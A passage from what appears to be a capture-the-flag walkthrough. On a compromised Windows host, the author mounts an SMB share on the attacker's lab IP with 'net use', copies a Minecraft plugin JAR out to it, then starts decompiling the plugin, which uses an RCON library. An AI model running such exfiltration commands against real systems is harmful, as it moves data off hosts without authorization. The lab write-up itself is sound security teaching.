 

    PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.6\share /u:oxdf oxdf
    The command completed successfully.



Now I can copy the binary to my machine:



    PS C:\Users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\



I'll verify the hash matches:



    oxdf@hacky$ md5sum playercounter-1.0-SNAPSHOT.jar
    349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar



#### Reverse Engineering

I'll grab a copy of [JD-GIU](https://java-decompiler.github.io/) and
open the plugin with
`java -jar jd-gui-1.6.6.jar playercounter-1.0-SNAPSHOT.jar`.

The project is pretty small:

![](/img/image-20240610212323951.png)

`rkon` is a [public library](https://github.com/kr5ch/rkon-core) for the
[Source RCON
Protocol](https://developer.valvesoftware.com/wiki/Source_RCON_Protocol),
designed for game servers. From the docs:

> The **Source RCON Protocol** is a TCP/IP-based communication protocol
> used by [Source Dedicated
> Server](https://developer.valvesoftware.com/wiki/Source_Dedicated_Server),
> which allows console commands to be issued to the server via a "remote
> console", or RCON. The most common use of RCON is to allow server
> owners to control their game servers without direct access to the
> machine the server is running on. In order for commands to be
> accepted, the connection must first be authenticated using the
> server's RCON password, which can be set using the [console
> variable](https://developer.valvesoftware.com/wiki/ConVar)
> *rcon_password*.

`plungin.yml` has some basic metadata:

